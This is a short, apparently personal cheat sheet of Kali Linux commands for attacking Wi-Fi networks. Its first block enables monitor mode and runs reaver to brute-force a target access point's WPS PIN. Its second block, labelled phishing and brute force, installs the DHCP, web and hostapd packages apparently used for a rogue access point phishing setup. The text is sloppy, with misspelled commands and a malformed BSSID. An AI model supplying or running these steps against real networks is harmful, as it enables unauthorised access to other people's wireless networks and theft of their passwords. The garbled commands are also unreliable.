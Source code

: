 =============================kali 1.9=== RIVE BROTEFORCE PIN=======================
ifconfig eht0 up
airmon-ng start wlan0
airodump-ng mon0

reaver -i mon0 --bssid 3432 -c 6 -p 848646464 -vv









==========================PHISHING S BRUTEFORCE==================kali linux 2.0 == wifislax========
apt-get update
apt-get install dhcpd
apt-get install isc-dhcp-server
apt-get install lighttpd
apt-get install hostapd 
apt-get install php-cgi     bez 5
apt-get upadete
